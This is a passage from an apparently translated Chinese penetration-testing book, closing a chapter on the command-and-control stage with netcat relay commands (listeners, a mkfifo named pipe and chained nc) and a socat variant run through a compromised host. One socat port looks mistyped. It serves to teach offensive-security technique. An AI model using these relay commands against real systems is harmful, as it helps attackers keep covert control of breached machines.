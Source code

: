 攻击者在他的本地系统上有一个 Netcat 实例，使用以下命令监听端口`6661`：

```
nc -l 6661

```

转发者，一个安装了 Netcat 实例的受损主机，将监听传入的数据包并将其转发到目标；它被配置为使用以下命令在端口`6666`上监听：

```
nc -l 6666

```

在目标系统上，输入以下命令来创建命名管道：

```
mkfifo reverse

```

然后，配置本地的 Netcat 实例，使用命名管道建立跨转发系统与攻击者之间的双向通信，命令如下：

```
nc localhost 6661 0<reverse | nc localhost 6666 1>reverse

```

使用`socat`也可以实现相同的双向数据流，该工具旨在实现这种类型的连接。此示例的命令将从目标系统执行，并使用：

```
socat tcp:localhost:6661 tcp:localhost:6646

```

# 总结

在本章中，我们关注了攻击者杀伤链的最后阶段——命令、控制和通信阶段——在这个阶段，攻击者使用持久代理与被攻击系统进行通信。

这就结束了本书的第一部分，我们在其中详细研究了攻击者的杀伤链，以了解如何将其应用于对网络或孤立系统的妥协。

在第二部分中，*交付阶段*，我们将研究使用各种利用路径的杀伤链的具体应用。在第七章中，*物理攻击和社会工程*，我们将重点关注物理安全和社会工程攻击。主题将包括攻击方法论概述，制作恶意 USB 设备和流氓微型计算机，社会工程工具包，以及测试系统对钓鱼攻击的抵抗力。
